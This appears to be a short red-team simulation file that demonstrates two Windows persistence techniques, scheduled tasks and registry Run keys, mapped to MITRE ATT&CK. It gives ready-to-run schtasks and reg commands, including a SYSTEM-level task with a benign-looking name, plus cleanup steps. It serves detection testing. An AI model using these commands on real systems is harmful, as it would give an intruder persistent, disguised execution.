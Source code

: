 # Attack Simulation

## Technique
- **MITRE ATT&CK**: 
  - T1053.005 – Scheduled Task: Scheduled Task/Job
  - T1547.001 – Registry Run Keys / Startup Folder
- **Tooling**: Native Windows (`schtasks.exe`, PowerShell), Registry Editor

## Execution
### Scheduled Task
```cmd
schtasks /create /sc minute /mo 1 /tn "UpdaterSvc" ^
  /tr "cmd.exe /c whoami > C:\Windows\Temp\whoami.txt" ^
  /ru SYSTEM /f
```
## Registry Run Key
```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v ExplorerRun /t REG_SZ /d "C:\Windows\System32\cmd.exe /c notepad.exe"
```

## Cleanup
```cmd
schtasks /delete /tn "UpdaterSvc" /f
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v ExplorerRun /f
del C:\Windows\Temp\whoami.txt 2>nul
```